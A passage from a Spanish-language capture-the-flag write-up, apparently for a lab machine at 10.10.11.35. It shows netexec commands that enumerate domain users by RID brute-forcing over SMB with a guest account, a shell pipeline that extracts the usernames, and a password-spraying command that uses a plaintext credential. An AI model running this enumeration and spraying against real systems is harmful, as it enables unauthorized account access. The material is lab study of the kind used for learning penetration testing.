```
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute > ridbrute.txt
```

![access](Imagenes/16.png)

Si realizamos el siguiente filtro con regex, podremos ver los usuarios enumerados y reescribir el fichero (usando sponge evitamos problemas al leer y escribir a la vez el mismo fichero y podemos guardar los cambios):

```
cat ridbrute.txt | grep User| awk '{print $6}'| awk -F '\' '{print $2}' | sponge ridbrute.txt
```

![access](Imagenes/17.png)

Ahora podemos hacer un password spraying con la credencial encontrada anteriormente y el listado de usuarios:

```
netexec smb 10.10.11.35 -u 'ridbrute.txt' -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

![access](Imagenes/18.png)
